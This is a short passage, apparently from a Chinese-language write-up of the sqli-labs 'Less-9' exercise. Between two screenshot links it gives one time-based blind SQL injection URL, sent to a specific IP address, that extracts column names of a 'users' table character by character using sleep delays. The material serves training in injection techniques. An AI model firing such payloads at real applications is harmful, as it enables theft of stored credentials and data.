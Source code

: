 ![image-20241007201839175](./assets/image-20241007201839175.png)

```sql
#获取users表的字段-id,username,password
http://8.137.60.154:8082/Less-9/?id=1'and if((substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 0,1),1,1)="i"),sleep(3),1) --+
```

![image-20241007203646939](./assets/image-20241007203646939.png)
